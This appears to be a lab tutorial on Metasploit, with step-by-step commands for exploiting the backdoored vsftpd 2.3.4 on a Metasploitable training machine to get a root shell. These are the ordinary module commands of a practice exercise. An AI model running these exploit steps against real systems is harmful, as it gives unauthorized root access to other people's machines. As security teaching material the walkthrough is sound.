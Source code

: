 Once you have found an exploit that looks promising you need to tell Metasploit how it should be executed. 

The steps for using an exploit are the following:

1. Tell Metasploit which module you want to try with the *use* command:

```bash
msf > use exploit/platform/service/exploit_name
msf exploit(exploit_name) >
```

2. Use the *show options* command to see the parameters that the module uses: 

```bash
msf exploit(exploit_name) > show options
```

3. With the help of the *set* command, set the *RHOST* parameter to the IP address of the victim, i.e., metasploiable machine: 

```bash
msf exploit(exploit_name) > set RHOST <IP_address_victim_machine>
```

4. type *run* to run the exploit

# Example: Using backdoored FTP server

Having done a vulnerability scan, it’s time to do the actual “hacking”. Your task is now to gain remote access to the Metasploitable machine and make your access persistent.

Backdoors are methods of bypassing the security of a software program or operating system. They are like normal exploits, but they are deliberately part of the software.

Metasploitable has a backdoored version of vsftpd installed and running. If you look back at the vulnerability scan you’ll see that Nessus discovered the backdoor and flagged it as a “Critical” vulnerability.

## Using the backdoor with metasploit

Metasploit has a module that makes it easy to take advantage of this backdoor.

+ Use the following command to search for vsftpd: `msf > search vsftpd`

+ specify the name of the exploit we want to use: `msf > use exploit/unix/ftp/vsftpd_234_backdoor`

+ Set the target IP-address: `msf exploit(vsftpd_234_backdoor) > set RHOST <IP_address_victim_machine>`

+ Run the exploit: `msf exploit(vsftpd_234_backdoor) > run`

You can see from the last line on the screen that the backdoor worked and a shell was open at port 6200 on the victim machine. You are now connected to that shell and can type any commands you want. 

+ Using the command *whoami*, check which user you are running as. You will find out that you are logged in as "root", which means that vsftpd was running with root privileges.

+ Check that you are actually running commands on the remote machine (Metasploitable) and not locally by running the command  `hostname`
